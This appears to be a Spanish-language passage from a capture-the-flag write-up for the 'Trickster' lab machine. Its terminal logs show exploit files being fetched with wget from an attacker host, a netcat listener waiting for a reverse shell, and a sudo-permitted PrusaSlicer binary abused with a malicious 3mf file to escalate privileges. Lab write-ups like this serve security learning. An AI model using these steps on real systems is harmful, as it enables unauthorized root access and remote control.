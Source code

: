 ```bash
adam@trickster:/tmp$ wget 10.10.16.5/exploit.sh
--2025-01-25 00:27:00--  http://10.10.16.5/exploit.sh
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh   100%[================================>]      45  --.-KB/s    in 0s      

2025-01-25 00:27:00 (3.79 MB/s) - ‘exploit.sh’ saved [45/45]

adam@trickster:/tmp$ wget 10.10.16.5/evil.3mf
--2025-01-25 00:27:08--  http://10.10.16.5/evil.3mf
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39455 (39K) [application/vnd.ms-3mfdocument]
Saving to: ‘evil.3mf’

evil.3mf    100%[================================>]      45  --.-KB/s    in 0s      

2025-01-25 00:27:08 (315 KB/s) - ‘evil.3mf’ saved [39455/39455]
```

Desde una terminal de nuestro equipo, nos pondremos en escucha por el puerto especificado en el payload para recibir la Reverse Shell.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
```

Realizaremos la explotación para abusar de este permiso de **sudoers** del binario.

```bash
adam@trickster:/tmp$ sudo /opt/PrusaSlicer/prusaslicer -s evil.3mf 
10 => Processing triangulated mesh
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:

EXPLOIT
Low bed adhesion

Consider enabling supports.
Also consider enabling brim.
88 => Estimating curled extrusions
88 => Generating skirt and brim
90 => Exporting G-code to EXPLOIT_0.3mm_{printing_filament_types}_MK4_{print_time}.gcode
```

